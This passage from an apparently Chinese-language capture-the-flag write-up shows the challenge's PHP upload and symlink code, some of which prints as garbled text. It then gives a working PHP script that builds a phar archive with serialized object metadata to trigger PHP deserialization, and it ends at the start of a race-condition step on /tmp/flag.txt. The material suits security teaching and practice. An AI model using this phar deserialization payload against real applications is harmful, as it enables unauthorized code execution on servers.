 ```php

    if(isset($_POST['flag'])) {
        $flag = (string)$_POST['flag'];
        if ($flag == "Give me flag") {
            filewrite("/tmp/flag.txt", "Don't give me flag");
            sleep(2);
            die("no no no !");
        } else {
            filewrite("/tmp/flag.txt", $flag); 
        }
        $head = "uploads/head.png";
        unlink($head);
        if (symlink($filename, $head)) {
            echo "æåæ´æ¢å¤´å";
        } else {
            unlink($filename);
            echo "éæ­£å¸¸æä»¶ï¼å·²è¢«å é¤";
        };
    }
}

```

首先定义了一个flag类，通过 exec("/copyflag"); 执行将/flag复制给/tmp/flag.txt，当flag类被销毁时会自动调用魔术方法__destruct去调用copyflag方法，尝试使用phar伪协议，上传一个phar文件

```php
<?php
class flag{}//根据题目给的类更改
$flag=new flag();
@unlink("phar.phar");
$p = new Phar('phar.phar');
$p->startBuffering();
$p->setStub('<?php __HALT_COMPILER(); ?>');
$p->setMetadata($flag);
$p->addFromString('1.txt','text');
$p->stopBuffering();
?>
```

长传生成的文件

![image-20220429163051114](/upload/img/image-20220429163051114.png)

然后开始tmp/flag.txt进行条件竞争
